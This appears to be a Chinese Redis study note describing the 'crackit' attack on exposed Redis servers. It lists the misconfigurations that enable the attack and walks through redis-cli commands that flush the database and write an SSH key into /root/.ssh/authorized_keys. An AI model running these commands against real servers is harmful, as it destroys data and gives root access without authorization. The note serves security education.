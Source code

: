 

### 安全问题

#### 案例 - 全球crackit攻击

* 过程示意图

  ![](https://github.com/gothicrush/learning/blob/master/Redis/12.Redis%E5%BC%80%E5%8F%91%E8%A7%84%E8%8C%83%E4%B8%8E%E5%AE%89%E5%85%A8/images/crackit%E7%A4%BA%E6%84%8F%E5%9B%BE.PNG)

* 被攻击者存在问题

  * redis没有设置密码
  * redis可以通过公网ip访问
  * redis使用默认端口启动
  * redis没有绑定特定网卡
  * redis以root启动

* 攻击流程

  * 攻击前尝试连接到被攻击者服务器

    ```bash
    >> ssh root@123.45.67.89 # 失败，因为你没有密钥，也没有ssh-keygen
    ```

  * 由于被攻击者外网开放，且使用默认端口，且没有限制网卡流量

    ```bash
    >> redis-cli -h 123.45.67.89 -p 6379 ping
    >> PONG
    >> redis-cli -h 123.16.14.182 -p 6379 flushall
    >> OK
    ```

  * 在攻击者服务器生成一个公钥，并将公钥保存到一个id_rsa.pub中

    ```bash
    >> ssh-keygen -C rsa -t "email@gmail"
    >> cat id_rsa.pub
    ```

  * 将公钥内容作为value添加到redis中

    ```bash
    >> redis-cli -h 123.45.67.89 -p 6379 -x set crackit
    >> redis-cli -h 123.45.67.89 -p 6379 get crackit
    ```

  * 将redis的dir设置为/root/.ssh目录，dbfilename设置为authorized_keys

    ```bash
    123.45.67.89:6379> config set dir /root/.ssh
    OK
    123.45.67.89:6379> config set dbfilename authorized_keys
    OK
    123.45.67.89:6379> save
    OK
    ```

